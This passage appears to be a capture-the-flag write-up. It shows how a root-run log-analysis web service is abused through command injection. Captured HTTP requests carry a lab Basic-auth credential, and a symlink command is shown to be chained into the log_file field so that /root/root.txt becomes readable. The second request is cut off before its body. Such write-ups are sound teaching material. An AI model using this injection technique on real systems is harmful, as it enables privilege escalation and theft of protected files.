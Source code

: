 ![picture alt](assets/Initial_Intercept.png)

```bash
POST / HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://127.0.0.1:8081
Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
Connection: keep-alive
Referer: http://127.0.0.1:8081/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log&analyze_log=
```
The POST request gets as an input a path to the logfile that should be analyzed.

If we tried to enter the /root/root.txt as a path we receive nothing back meaning that the service is blocked to the /var/log directory but it has root privileges.

Let's try to chain command as the service probably uses something like `cat log_file` in order to provide the contents of the log file.

Using https://gchq.github.io/CyberChef we can URL encode our command:
```bash
ln -s /root/root.txt /var/log/root.log
```
Using the repeater to send the chained commands to the machine

```bash
POST / HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Origin: http://127.0.0.1:8081
Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
Connection: keep-alive
Referer: http://127.0.0.1:8081/
Upgrade-Insecure-Requests: 1
```